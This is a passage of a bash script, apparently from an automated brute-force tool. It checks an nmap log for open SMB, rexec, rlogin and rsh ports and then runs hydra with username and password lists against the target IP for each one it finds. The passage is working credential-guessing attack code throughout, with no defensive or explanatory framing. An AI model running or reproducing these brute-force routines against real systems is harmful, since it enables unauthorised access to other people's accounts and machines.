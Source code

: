       Finished_Brute "${targetIP}"
    else
     echo "        ${BBlue}|──[${BRed} ❌ ${BBlue}]──╼ ${BRed} Port 445(SMB) is not open. Skipping to next port..."
   fi
  }
  BruteSMB445

  #  Port 512 - (Rexec)
  BruteREXEC(){
    if grep -q 512/tcp nmap.log; then
      echo "        ${BBlue}|──[${BRed} 🎯 ${BBlue}]──╼ ${BGreen} Port 512(rexec) is open. Starting bruteforce...\n"
      sleep 1
      hydra -L $user -P $pass ${targetIP} rexec -S 512 -e ns -o Output/${targetIP}/rexec_${targetIP}.txt -I -V -t $thread
      Finished_Brute "${targetIP}"
    else
      echo "        ${BBlue}|──[${BRed} ❌ ${BBlue}]──╼ ${BRed} Port 512(rexec) is not open. Skipping to next port..."
    fi
  }
  BruteREXEC

  #  Port 513 - (Rlogin)
  BruteRLOGIN(){
    if grep -q 513/tcp nmap.log; then
      echo "        ${BBlue}|──[${BRed} 🎯 ${BBlue}]──╼ ${BGreen} Port 513(rlogin) is open. Starting bruteforce...\n"
      sleep 1
      hydra -L $user -P $pass ${targetIP} rlogin -S 513 -e ns -o Output/${targetIP}/rlogin_${targetIP}.txt -I -V -t $thread
      Finished_Brute "${targetIP}"
    else
     echo "        ${BBlue}|──[${BRed} ❌ ${BBlue}]──╼ ${BRed} Port 513C(rlogin) is not open. Skipping to next port..."
   fi
  }
  BruteRLOGIN

  #  Port 514 - (RSH)
  BruteRSH(){
    if grep -q 514/tcp nmap.log; then
      echo "        ${BBlue}|──[${BRed} 🎯 ${BBlue}]──╼ ${BGreen} Port 514(rsh) is open. Starting bruteforce...\n"
      sleep 1
      hydra -L $user -P $pass ${targetIP} rsh -S 514 -e ns -o Output/${targetIP}/rsh_${targetIP}.txt -I -V -t $thread
      Finished_Brute "${targetIP}"
    else
      echo "        ${BBlue}|──[${BRed} ❌ ${BBlue}]──╼ ${BRed} Port 514(rsh) is not open. Skipping to next port..."
    fi
  }
  BruteRSH
